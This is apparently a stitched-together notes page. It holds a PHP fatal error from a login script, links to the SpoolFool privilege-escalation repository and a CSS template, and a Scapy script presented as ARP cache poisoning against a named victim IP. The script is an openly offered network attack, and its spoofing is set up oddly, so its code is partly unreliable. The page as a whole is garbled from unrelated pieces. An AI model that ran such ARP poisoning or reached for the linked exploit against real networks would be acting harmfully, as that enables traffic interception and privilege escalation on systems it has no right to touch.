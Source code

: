 https://drive.google.com/file/d/1olXbSWB_d-HK1BIC8r3b8EyrfPgKXD8o/view?usp=sharing

Fatal error: Uncaught TypeError: mysqli_fetch_assoc(): Argument #1 ($result) must be of type mysqli_result, bool given in C:\xampp\htdocs\drink_shop\pages\manage_login\check_login.php:14 Stack trace: #0 C:\xampp\htdocs\drink_shop\pages\manage_login\check_login.php(14): mysqli_fetch_assoc(false) #1 {main} thrown in C:\xampp\htdocs\drink_shop\pages\manage_login\check_login.php on line 14

https://github.com/ly4k/SpoolFool

https://www.free-css.com/free-css-templates/page291/drool

from scapy.all import Ether, ARP, sendp

# Define target IP address and MAC address
target_ip = "10.62.2.52"  # Victim's IP address
target_mac = "08:00:27:XX:XX:XX"  # Victim's MAC address (replace with actual MAC)

# Define attacker's MAC and IP address
attacker_mac = "AA:BB:CC:DD:EE:FF"  # Attacker's MAC address
attacker_ip = "10.62.2.54"  # Attacker's IP address

# Create an ARP reply packet to poison the victim's ARP cache
arp_reply = Ether(dst=target_mac)/ARP(op="is-at", psrc=attacker_ip, hwsrc=attacker_mac, pdst=target_ip)

# Send the ARP reply packet to perform ARP poisoning
sendp(arp_reply, iface="your_network_interface")  # Replace "your_network_interface" with your network interface
